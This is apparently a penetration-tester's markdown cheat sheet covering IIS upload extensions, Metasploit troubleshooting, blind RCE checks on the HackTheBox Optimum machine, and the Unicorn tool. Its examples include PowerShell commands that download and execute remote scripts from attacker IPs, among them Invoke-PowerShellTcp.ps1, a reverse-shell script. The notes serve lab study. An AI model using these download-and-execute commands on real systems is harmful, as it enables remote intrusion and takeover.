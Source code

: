 # Web

## File Upload

### WINDOWS

For IIS we could try extensions like:
* asp
* aspx
* config
* exe

# Exploit troubleshooting

## Migration to the more stable process
It is a good idea to migrate to a process running under ​ NT AUTHORITY\NETWORK SERVICE​.
In metasploit it's good idea to use ps and migrate commands.

## Timeout errors
If you noticed the vulnerable service is running very slow and you get an error during an exploitations, you can try to adjust response time in options by checking:
    msf > show advanced

# Blind RCE
Example: HTB\Optimum
## Check if it works
- try to run ping yourself from the host and check tcpdump
  - use full path
  - use URL encoding
  - Example
    - on the victim:
      - C:\Windows\System32\ping.exe 10.10.14.8
      - C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe -c ping 10.10.14.8
      - C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.8:8000')
    - on the attacker: >>tcpdump icmp

## Windows system folders
32-bit binaries: C:\\Windows\System32
32-bit binaries: C:\\Windows\SysWow64
64-bit binaries: C:\\Windows\SysNative

C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe -c ping 10.10.14.8

## Alternative run of PowerShell
Instead of
```
powershell -c <command>
```
we can use this trick:
```
echo <command> | powershell -
# Example:
echo IEX((New-Object Net.WebClient).DownloadString('http://10.10.14.6:8090/Invoke-PowerShellTcp.ps1')) | powershell -
```


# [Tools - Windows] Magic Unicorn
https://github.com/trustedsec/unicorn
Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory.
